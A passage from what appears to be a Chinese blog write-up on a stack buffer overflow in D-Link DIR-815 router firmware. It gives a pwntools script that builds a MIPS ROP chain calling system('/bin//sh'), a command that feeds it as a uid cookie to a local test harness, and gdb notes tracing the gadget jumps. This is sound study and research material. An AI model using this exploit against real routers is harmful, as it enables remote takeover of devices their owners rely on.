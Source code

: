 这里参考下H4lo师傅的整个流程图：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/H4lo.png)

3.构造的exp如下：

```
#!/usr/bin/python2
from pwn import *

context.endian = "little"
context.arch = "mips"
base_addr = 0x76738000
system_addr_1 = 0x53200-1
gadget1 = 0x45988
gadget2 = 0x159cc

padding = 'A' * 0x3cd
padding += p32(base_addr + system_addr_1) # s0
padding += p32(base_addr + gadget2)       # s1
padding += 'A' * 4                        # s2
padding += 'A' * 4                        # s3
padding += 'A' * 4                        # s4
padding += 'A' * 4                           # s5
padding += 'A' * 4                        # s6
padding += 'A' * 4                        # s7
padding += 'A' * 4                        # fp
padding += p32(base_addr + gadget1)       # ra
padding += 'B' * 0x10
padding += '/bin//sh'

f = open("exploit",'wb+')
f.write(padding)
f.close()
```

4.测试exp

执行命令：

```
sudo ./test.sh  'uid=1234' `python -c "print 'uid=' + open('exploit','r').read()"`
```

使用gdb-multiarch联调发现，确实能够跳转到gadget1处（0x76738000+0x45988=0x7677d988），将s0处的system-1地址加一。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/gadget1.png)

之后顺利进入gadget1处(0x76738000+0x159cc=0x7674d9cc)处，将栈上内容(sp+0x10)先加载到s5，并在跳转s0前将s5中内容传给a0。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/addius5sp10.png)
